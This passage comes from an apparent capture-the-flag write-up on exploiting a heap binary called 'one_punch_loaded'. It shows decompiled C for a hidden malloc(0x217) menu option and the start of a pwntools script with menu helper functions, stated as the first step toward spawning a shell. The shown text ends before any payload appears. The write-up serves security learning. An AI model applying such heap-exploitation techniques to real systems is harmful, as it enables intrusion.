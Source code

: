 * **SECRET** - This is the function where a **malloc** call of 0x217 happens. To trigger this function , we need to fill the 0x217 tcache with atleast 6 chunks and hence we can *malloc only if the tcache bins of size 0x217 are 6 or more*.

```c
  if ( *(qword_4030 + 32) <= 6 )
    error("gg");
  buf = malloc(0x217uLL);
  if ( !buf )
    error("err");
  if ( read(0, buf, 0x217uLL) <= 0 )
    error("io");
  puts("Serious Punch!!!");
  puts(&unk_2128);
  return puts(buf);
```

Fair Enough , now that we have a grasp of what the binary does , let's try exploiting it and spawn a shell :).


## Exploit Development

We begin with defining functions for doing necessary stuff for us.

```py
from pwn import *
import sys

io=process("./one_punch_loaded",env = {"LD_PRELOAD" : "./libc.so.6"})

if(len(sys.argv) == 1):
    context.noptrace = True

def add(idx,name):
    io.sendlineafter("> ",'1')
    io.sendlineafter("idx: ",str(idx))
    io.sendlineafter("name: ",str(name))

def edit(idx,name):
    io.sendlineafter("> ",'2')
    io.sendlineafter("idx: ",str(idx))
    io.sendafter("name: ",name)

def view(idx):
    io.sendlineafter("> ",'3')
    io.sendlineafter("idx: ",str(idx))

def free(idx):
    io.sendlineafter("> ",'4')
    io.sendlineafter("idx: ",str(idx))

def secret(data):
    io.sendlineafter("> ",'50056')
    io.send(data)


io.interactive()
```
